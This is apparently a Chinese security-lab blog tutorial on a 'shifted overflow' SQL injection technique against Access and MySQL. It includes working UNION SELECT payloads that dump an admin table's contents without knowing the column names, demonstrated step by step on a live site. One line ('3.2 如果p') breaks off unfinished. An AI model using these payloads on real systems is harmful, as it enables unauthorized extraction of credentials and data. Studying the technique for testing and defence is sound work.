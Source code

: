 ```yaml
---
title: "移位溢注：告别依靠人品的偏移注入"
id: csdn63252636
---
```


## 介绍：

在Access数据库类型注入的时候，我们获取不到列名(前提是有表名)，一般会选择使用偏移注入，但是这种注入方式往往借助的是个人的人品，且步骤繁琐。本文中我们研究了一种新的注入技术让“偏移注入不在需要人品”。在这里定义这种注入技术为：“移位溢注技术”。

它适用于ACCESS和MYSQL（任何版本）

## 正文：

我们先来看看普通的偏移注入步骤：

1.判断注入点

2.order by 判断长度

3.判断表名

4.联合查询

5.获取表中列数：union select 1,2,3,4,..,* from TABLE

6.开始偏移注入：TABLE as a inner join TABLE as b on a.id=b.id

由于步骤6的方法过于需要人品值，且语句繁琐，因此在这里，我们研究新的注入技术：

首先来看看步骤6语句的整体意思：

步骤6的语句，*表示给**TALBE**取**2**个别名，然后分别用别名取查询**TALBE**的内容（表**a**和表**b**）；而__on a.id = b.id* *这样的条件是为了满足语法需求，实际并没有作用，因为相同内容的表，相同字段内容一定相同。*

这时，我们再回过头来看步骤5：

*由于联合查询中**select**后面添加数字的目的是为了让联合查询返回接结果和网站正常查询返回的结果的列数一致（不一致数据库会报错，页面无法显示），且*****表示通配符，可以表示整个表格所有列；因此这里通过数字来占位，并使用*****来替代**TABLE**中的所有列，使得联合查询可以完成，并推算出*****的值。*

这时候我们继续研究偏移注入的整体公式方法，发现即使使用多级偏移注入也需要一定的概率(人品值)才可以得到想要的结果，所以我们就尝试研究新的方法能不能替换这种不固定概率的方法。

现在我们重新整理一下SQL语句，从联合查询开始：

1.原union语句：union select 1,2,3,..,p..,n from TABLE

（p=页面爆出的数字，可能有多个p1,p2..；n=原网站查询的总列数；TALBE=我们获得的表名；下面开始就使用上述字母的定义）

2.新语句：

```
union select 1,2,3,..,p-1,TABLE.*,p+k,..,n from TABLE where 字段名 = 字段内容
```

–在p的位置爆出TALBE表中第一个字段的内容（其他位置还可能爆出更多内容）

（这里如果存在已知字段名可以使用，没有就不用，一般id这个字段时存在的，可以使用id = 1来显示第一行）

```
union select 1,2,3,..,p-2,TABLE.*,p+k-1,..,n from TABLE where 字段名 = 字段内容
```

–在p的位置爆出TALBE表中第二个字段的内容（其他位置还可能爆出更多内容）

```
union select 1,2,3,..,p-3,TABLE.*,p+k-2,..,n from TABLE where 字段名 = 字段内容
```

–在p的位置爆出TALBE表中第三个字段的内容（其他位置还可能爆出更多内容）

注：这里一定是TALBE.*而不是*

3.1 以此类推可以爆出TALBE的每一列内容。

3.2 如果p

## 原理：

1.由原语句：union select 1,2,3,..,p..,n-k,* from TABLE 可以得出该联合查询的目的是构造和原网站相同列数的查询结构，使得页面上可以显示对应的数字；这条语句相当于是做了两次查询并将它们的结果合并，第一次做了select 1,2,3,..,n-k from TALBE ，第二次做了select * from TALBE ，然后将它们的结果合并。

这可以参考mysql的语句：select 1,2,3,4,5,admin.* from admin;

![](../img/2aaa44d99cc345a401183240ae9683e6.png)![](../img/24af8ab5de13a7a39a9c5f2e8a52d02d.png)![](../img/cf88cd2e4ac3e1b32d105901bb5b0237.png)

2.只要满足原理1的要求，保障联合查询的结果和原网站查询的结果列数一致即可；因此可以将TALBE.*向前移动至页面显示的数字处来爆出TALBE列中的内容。

这可以参考mysql的语句：

```
select 1,2,3,4,5,6,7,8,9,10 from news where id =1 union select 1,2,3,4,5,6,7,admin.* from admin;

select 1,2,3,4,5,6,7,8,9,10 from news where id =1 union select 1,2,3,admin.*,7,8,9,10 from admin;
```

*注：假设数字**4**、**5**在页面显示。*

由下图可知，其实数据已近查询出来，但是页面没有显示，这个是通过平移查询结果到页面显示的数字上去，即可爆出敏感字段。

![](../img/dee1a738e17a3100059bbb24608b5016.png)![](../img/5b85695bd20db53504065d5f1b6b5279.png)

## 例子：

步骤1：判断注入点是否存在

![](../img/09a169008418275a83132aca4bb744c9.png)
步骤2：判断字段长度：order by 35

![](../img/a9123913466f6f389f1e1469c928ee01.png)![](../img/81166d2f383c0508fbc715189d6edf41.png)

步骤3：获得表名(必备条件) and exists(select * from admin)

![](../img/c3e62e4e31a9fde697c396ea20b5fee2.png)

步骤4：获取不了列名（当尝试多个常用字段名以后，最终还是发现无法获得字段名）

步骤5：使用联合查询(union select)

![](../img/7e59fb6a3879825f2bc0e6035f0df1da.png)![](../img/7e59fb6a3879825f2bc0e6035f0df1da.png)

步骤6：使用新注入技术方法

（1）获取admin表的列数：

```
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,* from admin --返回错误页面

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,* from admin --返回错误页面

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,* from admin --返回错误页面

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,* from admin --返回错误页面
```

。。。

```
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,* from admin --返回步骤5页面，因此admin表的列数为6
```

![](../img/ae4368b10b8d6df5f554f3429dbc4291.png)![](../img/dcbf01626c6610a78b3c1a3ea6c487ba.png)![](../img/5ca7912298ffd3fef45f8679268f71db.png)

（2）由于网页中包含连续数字，表示可以显示连续的查询结果，构造SQL语句查询前四列第一行。

```
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,admin.*,34,35 from admin
```

![](../img/04403f1ae77bd93ae7c6f2ecfcf132da.png)![](../img/6a5916ed51e6a0325f605095a8acb5ec.png)

（3）由第一行第一列内容为1，可以猜测该表有id字段，因此修改语句获取其他行。

```
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,admin.*,34,35 from admin where id = 3
```

![](../img/f52f6fa4ce83c2fe847b92e8bc3f66cc.png)

## 总结

在这里我们命名这种新注入技术为”移位溢注”。由此如果MYSQL小于5.0的情况下所具备的条件和ACCESS一样，也可以使用此方法注入，如果是MYSQL大于5.0的版本，使用此方法可以省去获得列名的步骤。

> 文章研究：米斯特安全攻防实验室 MST.Lab[@gh0stkey](http://www.zhihu.com/people/45705b3b9e46c45ebfaba974a9e5ecd7) @[Seagull](http://www.zhihu.com/people/SeagullGR)